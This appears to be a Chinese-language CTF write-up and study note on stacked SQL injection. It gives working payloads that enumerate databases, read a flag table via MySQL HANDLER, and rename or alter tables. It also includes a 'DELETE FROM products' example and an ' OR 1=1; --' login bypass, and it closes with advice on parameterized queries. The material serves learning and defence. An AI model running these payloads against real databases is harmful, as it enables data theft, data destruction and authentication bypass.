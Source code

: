 ```
1';show databases--+
1'and extractvalue(1,concat(0x7e,(database())))--+
1';show tables--+

看字段
1'; show columns from `words`--+
1'; show columns from `1919810931114514`--+

直接读表字段的值
1'; handler
1'; handler `1919810931114514` open as `a`; handler `a` read next;#

利用原有的回显，把flag表改名过去。
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#

```
>Handler语法:
handler语句，一行一行的浏览一个表中的数据
handler语句并不具备select语句的所有功能。
mysql专用的语句，并没有包含到SQL标准中。
HANDLER语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表。
1、HANDLER tbl_name OPEN
打开一张表，无返回结果，实际上我们在这里声明了一个名为tb1_name的句柄。
2、HANDLER tbl_name READ FIRST
获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
3、HANDLER tbl_name CLOSE
关闭打开的句柄。
4、HANDLER tbl_name READ index_name = value
通过索引列指定一个值，可以指定从哪一行开始,通过NEXT继续浏览。

^
```
post中：
query=1;show databases;
query=1;show columns from Flag;#

猜测语句
select $_GET['query'] || flag from flag

payload：
query=*,1
或
query=1;set sql_mode=pipes_as_concat;select 1
```

堆叠注入（Stacked Injection）是一种 SQL 注入攻击技术，其中攻击者利用应用程序对用户输入的不安全处理，将多个 SQL 查询或命令堆叠在一起，以达到执行多个恶意操作的目的。

通常情况下，SQL 注入攻击是通过在应用程序接受用户输入的地方注入恶意的 SQL 代码来实现的。但在某些情况下，应用程序可能会接受并处理多个用户输入，并将它们拼接成一个或多个 SQL 查询或命令。攻击者可以利用这种情况来构造堆叠注入攻击。



堆叠注入在mysql数据库中并不常见，常见于mssql数据库，mssql数据库是默认堆叠注入的。
```
如用户输入：1; DELETE FROM products
服务器端生成的sql语句为：Select * from products where productid=1;DELETE FROM products
当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。
危害巨大。
可以使用盲注，布尔，验证是否存在堆叠注入。
```
<https://kitescat.github.io/2023/05/06/SQL%E6%B3%A8%E5%85%A5%E4%B9%8B%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5/index.html>

## **场景**

例如，考虑以下伪代码：

```
username = getRequestParameter("username")
password = getRequestParameter("password")

sql_query = "SELECT * FROM users WHERE username='" + username + "' AND password='" + password + "'"
executeQuery(sql_query)
```

在这个例子中，应用程序接受了用户名和密码作为输入，并将它们拼接成一个 SQL 查询。如果应用程序没有对输入进行适当的验证和过滤，攻击者可以构造特定的输入，以便在用户名和密码字段中注入额外的 SQL 代码，从而实现堆叠注入攻击。

例如，攻击者可以构造以下输入：

```
username: ' OR 1=1; --
password: anything
```

这样，拼接后的 SQL 查询将变成：

```
SELECT * FROM users WHERE username='' OR 1=1; --' AND password='anything'
```

这将导致应用程序忽略密码验证，直接返回所有用户的记录，因为 `OR 1=1` 的条件始终为真。通过堆叠注入，攻击者可以绕过认证并执行恶意操作，比如获取敏感信息或者修改数据库内容。

要防止堆叠注入攻击，开发人员应该采取一系列的安全措施，包括使用参数化查询、合适的输入验证、过滤和转义来防止 SQL 注入。此外，最好避免将多个用户输入直接拼接成 SQL 查询或命令，而是使用安全的编程实践来处理用户输入。

